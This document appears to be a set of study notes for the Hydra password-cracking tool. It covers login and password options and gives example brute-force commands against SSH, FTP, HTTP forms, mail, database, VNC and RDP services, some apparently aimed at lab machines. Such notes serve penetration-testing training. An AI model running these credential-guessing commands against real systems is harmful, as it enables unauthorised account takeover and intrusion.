 ### Content
- Basic Usage
- Services
	- SSH
	- HTTP
	- RDP
## Basic usage
``` bash
hydra [login_options] [password_options] [attack_options] [service_options]
```
* `-l <username>`  / `-L useranems.tx`
* `-p <password>` / `-P passwords.txt`
* `-t <number of parallel tasks (threads)>` 
* `-f` Fast mode: Stop the attack after the first successful login is found.
* `-s <port>`
* `service://server` Service (e.g., `ssh`, `http`, `ftp`) and the target server's address or hostname.
---
## Services

| Hydra Service   | Example Command                                                                                                   |
| --------------- | ----------------------------------------------------------------------------------------------------------------- |
| `ftp`           | `hydra -l admin -P /path/to/password_list.txt ftp://192.168.1.100`                                                |
| `ssh`           | `hydra -l root -P /path/to/password_list.txt ssh://192.168.1.100`                                                 |
| `http-get/post` | `hydra -l admin -P passwords.txt www.example.com http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"` |
| `smtp`          | `hydra -l admin -P /path/to/password_list.txt smtp://mail.server.com`                                             |
| `pop3`          | `hydra -l user@example.com -P /path/to/password_list.txt pop3://mail.server.com`                                  |
| `imap`          | `hydra -l user@example.com -P /path/to/password_list.txt imap://mail.server.com`                                  |
| `mysql`         | `hydra -l root -P /path/to/password_list.txt mysql://192.168.1.100`                                               |
| `mssql`         | `hydra -l sa -P /path/to/password_list.txt mssql://192.168.1.100`                                                 |
| `vnc`           | `hydra -P /path/to/password_list.txt vnc://192.168.1.100`                                                         |
| `rdp`           | `hydra -l admin -P /path/to/password_list.txt rdp://192.168.1.100`                                                |

#### SSH
Targeting Multiple SSH Servers:
``` bash
hydra -l root -p toor -M targets.txt ssh
```
#### HTTP 
POST `hydra [options] target http-post-form "path:params:condition_string"`
* failure conditions (`F=...`) it can be a word or http request status code
* success condition (`S=...`) it can be a word or http request status code
``` bash
hydra -L usernames.tx -P passwords.txt -f "http-post-form://94.237.60.32:33898/:username=^USER^&password=^PASS^:F=Invalid credentials"
# OR
hydra -L usernames.txt -P passwords.txt -f 94.237.60.32 -s 33898 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
```
GET
``` bash
hydra -l basic-auth-user -P passwords.txt 94.237.53.3 http-get / -f -s 58756
# OR
hydra http-get://94.237.53.3:58756/ -l basic-auth-user -P passwords.txt
```
#### RDP
password consists of 6 to 8 characters, including lowercase letters, uppercase letters, and numbers.
``` bash
hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp
```
---
